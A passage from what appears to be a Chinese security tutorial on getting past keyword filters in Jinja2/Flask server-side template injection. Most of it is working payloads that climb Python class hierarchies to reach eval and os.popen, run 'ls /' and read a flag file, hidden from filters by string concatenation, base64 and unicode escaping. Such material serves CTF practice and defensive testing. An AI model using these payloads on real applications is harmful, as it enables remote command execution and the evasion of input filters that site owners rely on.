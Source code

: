 [![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174659-268a5d54-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174659-268a5d54-bd3e-1.png)

关键字绕过
-----

### 利用字符串拼接绕过

我们可以利用 “+” 进行字符串拼接，绕过关键字过滤，例如：

```
{{().__class__.__bases__[0].__subclasses__()[40]('/fl'+'ag').read()}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("o"+"s").popen("ls /").read()')}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil'+'tins__']['eval']('__import__("os").popen("ls /").read()')}}


```

只要返回的是**字典类型**的或是**字符串格式**的，即 payload 中引号内的，在调用的时候都可以使用字符串拼接绕过。

### 利用编码绕过

我们可以利用对关键字编码的方法，绕过关键字过滤，例如用 base64 编码绕过：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}


```

等同于：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}


```

可以看到，在 payload 中，只要是字符串的，即 payload 中引号内的，都可以用编码绕过。同理还可以进行 rot13、16 进制编码等。

### 利用 Unicode 编码绕过关键字（flask 适用）

unicode 编码绕过是一种网上没提出的方法。

我们可以利用 unicode 编码的方法，绕过关键字过滤，例如：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}


```
